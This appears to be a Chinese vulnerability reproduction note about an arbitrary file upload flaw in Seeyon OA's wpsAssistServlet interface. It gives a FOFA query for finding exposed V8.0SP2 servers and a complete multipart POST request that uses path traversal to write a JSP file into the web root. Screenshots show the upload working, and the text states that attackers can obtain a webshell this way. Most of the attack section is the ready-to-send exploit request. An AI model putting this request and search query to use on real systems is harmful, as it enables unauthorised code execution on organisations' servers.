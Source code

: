 <a name="DFDZj"></a>
# 一、漏洞背景
```java
2010年用友致远更名为致远协创；2017年更名为致远互联。用友致远协同管理软件精准定位于企事业组织行为管理的需求，融入先进的协同管理理念，运用领先的网络技术，是基于互联网的组织行为管理平台。用友致远协同管理软件为企事业组织提供了一个协同办公门户和管理平台，涵盖了组织运营涉及的协作管理、审批管理、资源管理、知识管理、文化管理、公文管理等内容，支持企事业组织的信息化扩展应用，能有效帮助组织解决战略落地、文化建设、管理规范、资源整合、运营管控等难题，是组织管理的最佳实践。用友致远有A6和A8两大协同软件产品线：A6协同管理软件以其成熟稳定、“易用、好用、适用”的产品特性被业界誉为“协同经典”。2007年底发布的A8协同管理软件，以强力支持集团化、多语言和跨平台应用为特点，被业界誉为“中国协同应用软件的新标准”。致远互联-OA wpsAssistServlet接口存在任意文件上传漏洞，黑客上传恶意文件后可以获取webshell。
```
<a name="NpLPF"></a>
# 二、fofa搜索语法
```java
app="致远互联-OA" && title="V8.0SP2"
```
<a name="TNcUl"></a>
# 三、漏洞复现
第一步，向目标发送如下数据包，其中path中的pajgatzw.jsp为回显文件
```java
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/pajgatzw.jsp&fileId=2 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=oklp586ac9dujytddee11e86fa698nmv

--oklp586ac9dujytddee11e86fa698nmv
Content-Disposition: form-data; name="upload"; filename="majgatzw.xls"
Content-Type: application/vnd.ms-excel

<% out.println("lnrrovkexhsxbzjwptmthmyjgnvgjhjk");%>  
--oklp586ac9dujytddee11e86fa698nmv--
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719237716793-8a724ec9-8fa6-45e9-8cc6-f4c374f4f682.png#averageHue=%23fcfbfb&clientId=ud521e60a-9dae-4&from=paste&height=588&id=ub9f5b3b2&originHeight=735&originWidth=1495&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=150582&status=done&style=none&taskId=u522aa8d8-789a-473b-a00f-15978b5ea1e&title=&width=1196)<br />第二步，使用浏览器访问回显文件<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719237788335-3acbf253-4c46-4cf8-8d75-69f75d2b21ce.png#averageHue=%23fdfcfc&clientId=ud521e60a-9dae-4&from=paste&height=245&id=u9b851904&originHeight=306&originWidth=1025&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=16834&status=done&style=none&taskId=u094b6502-1e3f-43c6-b7f5-81edc18f79b&title=&width=820)<br />证明存在漏洞








